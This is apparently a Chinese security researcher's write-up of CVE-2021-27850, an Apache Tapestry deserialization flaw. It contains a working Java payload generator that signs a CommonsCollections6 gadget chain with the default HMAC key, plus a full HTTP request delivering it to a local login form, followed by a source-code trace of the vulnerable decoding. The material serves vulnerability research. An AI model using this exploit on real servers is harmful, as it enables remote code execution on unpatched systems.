




# CVE-2021-27850 Apache Tapestry 反序列化分析

By. Whoopsunix

# 0x00 概述

影响版本

[5.4.0, 5.6.2)

5.7.0

# 0x01 环境

```
mvn -Djetty.port=30001 jetty:run
```

打开 http://127.0.0.1:30001/

抓取接口修改 `t:formdata` 值

# 0x02 复现

以登录接口为例，抓取修改 `t:formdata` 值

```java
public class PayloadMake {
    public static void main(String[] args) throws Exception{
        Object object = Serializer.cc6("open -a Calculator.app");
        String HMAC_PASSPHRASE = "change this immediately";

        URLEncoderImpl urlEncoder = new URLEncoderImpl();
        ClientDataEncoderImpl clientDataEncoder = new ClientDataEncoderImpl(urlEncoder, HMAC_PASSPHRASE, null, null, null);
        ClientDataSink clientDataSink = clientDataEncoder.createSink();
        ObjectOutputStream objectOutputStream = clientDataSink.getObjectOutputStream();
        objectOutputStream.writeUTF("UTF-8");
        objectOutputStream.writeBoolean(false);
        objectOutputStream.writeObject(object);
        String payload = clientDataSink.getClientData();
        System.out.println(payload);
    }
}
```

```http
POST /TapestryDemo/login.login HTTP/1.1
Host: 127.0.0.1:30001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1080
Origin: http://127.0.0.1:30001
Connection: close
Referer: http://127.0.0.1:30001/TapestryDemo/login.login
Cookie: JSESSIONID=1honjvjbatpn5; JSESSIONID=DC46B65E175C8D3CC2A5BF30BC47D947
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

t%3Asubmit=%5B%22submit_0%22%2C%22submit_0%22%5D&t%3Aformdata=Jk3rI%2b%2b6ELVFZbc%2biaf4aE2zs9A%3d%3aH4sIAAAAAAAAAJWUTWjUQBTHX7Ld1raK2y2UghR71GITDz1U96C1WF3YVtG1FPfidHe6mzaZxMlkzbYi6MGCXnpYKSJoD73ZCuLZQ/HgQSzYi6IXEUQFBT151JeP3Wb9qg0kmWTm/3v/994kK18gfmkHxM9lR/oHwebQMU3KRHGEpisniV0aJVa85fXak64LL2Igj0CbbpLCCMkLk6ehVZQ4tUumXnCtI0fBO3YiDCCBp4SwAZMXFWKRfIkqedMwTGbjXddpXmjeeIZWykR3qJLVaAFDHWeCV26sbtw5tLb3jQxyBmK4REAy47lSdcKK6qnJaZSncMogloDdwZRnWEVCysV3koux%2b7aIjWolQ2YrKGLvq9fuVhLVGEgZaJnys8OoBzKIUAOEGiLUCELNcsLsKZMblGNcjHl4i5hTDvPYtjJcIhqjhQjg4NPFz/tmF5tkkHKwS4vM2AL6c9uz4vBQ8i8zUcnj8b5vrwa6b8sAroXNi2Myqf9OBp8EYSICnCgvdAzJD6uyV9FWrbbiIlyBmGuVa9vMa6hyxmFCMyhsHturZZqVzRnKI9HnP/6Ymbu8PihDLAdxbYgXsYaduT9tonZtlIqSWRgjBm3cZ2cF11gxlcMlpwknRrZiUcQko5hhndh2UO8QH6QU4hfWJ%2b4l7P16raqygLYiFWHCKEpGRQHsftfLB8%2ben693AgS0oiZw6XgF3OORsISJTWngdenr8uBs6tExX1r2l9retdOXdXsyqz5EbrPmV%2b5v0CCJhrb40O4Q%2bkvOYb1WN8Y/fOqZO1HzLwnoMi3KevtJ7zDR845OsGvYWPxOm6hL8/Xwkjfo9eG77YYdkmaCFilPvlta/n51HtsqpSHu/zjcBsdjjjFJ%2bfWVWz3t1bc36w58JPz2gwLX9Saa3Z/vvffPBAUAAA%3d%3d&email=11&password=123&submit_0=Sign+in
```

# 0x03 分析

跟进 `org.apache.tapestry5.corelib.components.Form#executeStoredActions()` 方法，该方法处理来自 POST 请求的 `t:formdata` 参数值。



继续跟进到 `org.apache.tapestry5.internal.services.ClientDataEncoderImpl#decodeClientData()` 方法，将数据 Base64 解码再通过 `validateHMAC()` 方法后 GZIP 解码



`validateHMAC()` 中校验是否 hmacKey 相同



key 值在 `AppModule` 中定义

